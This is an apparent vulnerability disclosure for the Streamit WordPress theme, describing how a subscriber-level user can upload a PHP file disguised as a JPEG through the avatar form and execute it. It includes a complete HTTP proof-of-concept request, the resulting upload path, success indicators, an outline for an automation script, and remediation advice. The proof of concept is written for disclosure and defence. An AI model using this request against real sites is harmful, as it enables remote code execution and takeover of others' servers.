 # 🚀 Streamit WordPress Theme - Subscriber File Upload to RCE  

📌 **📌 Product Information **  
Platform: WordPress (Theme: Streamit)  
Affected Feature: Profile Avatar Upload  
Tested Vulnerability: Arbitrary PHP File Upload (Subscriber+)  
CVE: Not Assigned  
Severity: High (Authenticated File Upload => Remote Code Execution)  
CWE ID: CWE-434  
CWE Name: Unrestricted Upload of File with Dangerous Type  
Patched: ❌ Not Applicable  
Patch Priority: 🔴 High  
Date Published: June 12, 2025  
Researcher: Grac3  
Link Product: https://themeforest.net/item/streamit-video-streaming-wordpress-theme/29772881  

---

⚠️ Summary of the Vulnerability  
The Streamit WordPress Theme allows logged-in users with *subscriber* role to change their avatar via the following endpoint:

example :
```
/membership-account/your-profile/?view=change-password
```

However, the form handling this request does not properly validate uploaded file types when the `update_avatar` action is set. By abusing this, attackers can upload PHP files disguised as images and trigger Remote Code Execution.

## 🧪 Proof of Concept (PoC)  
**Sample POST Request:**

```
POST /membership-account/your-profile/?view=change-password HTTP/2
Host: target.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKW4qPnvjzFXSGYQM
Cookie: [VALID SUBSCRIBER COOKIE]

------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="user_avatar"; filename="bq.php"
Content-Type: image/jpeg

ÿØÿà
<?php echo 'HELLO WORLD'; ?>
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="update_avatar"

Change
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="_wpnonce"

[VALID_NONCE]
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="_wp_http_referer"

/membership-account/your-profile/?view=change-password
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="action"

update-avatar
------WebKitFormBoundaryKW4qPnvjzFXSGYQM--
```

**📁 File Upload Behavior  **
- The uploaded file must include the parameter `update_avatar` to be processed.
- Upon success, the file is saved in:

```
/wp-content/uploads/[year]/[month]/bq.php
```

**✅ Indicators of Success:**
- Status HTTP/2 200 OK
- Visiting `/wp-content/uploads/2025/06/bq.php` will execute the payload and print `HELLO WORLD`.

## 🔍 Where’s the Flaw?
- The file type is only superficially validated by MIME type.
- No server-side checks to restrict executable file types (like `.php`).
- Action `update_avatar` allows upload without checking user capabilities beyond basic authentication.

## 🔐 Recommendation
- Enforce strict MIME and extension checks server-side for file uploads.
- Restrict `update-avatar` functionality to roles above Subscriber.
- Disallow `.php`, `.phtml`, and similar dangerous file types explicitly.
- Monitor and log all uploads, especially in `/wp-content/uploads`.

## 📁 Script Features (Optional)
You may create a Python script to:
- Authenticate as a Subscriber.
- Upload a PHP payload via avatar change.
- Automatically retrieve uploaded path.
- Trigger uploaded file and verify execution.

## ⚠️ Disclaimer  
This information is provided for **educational and authorized testing** purposes only.  
**Do not** use it on systems without proper authorization.  
Unauthorized exploitation is illegal and unethical.
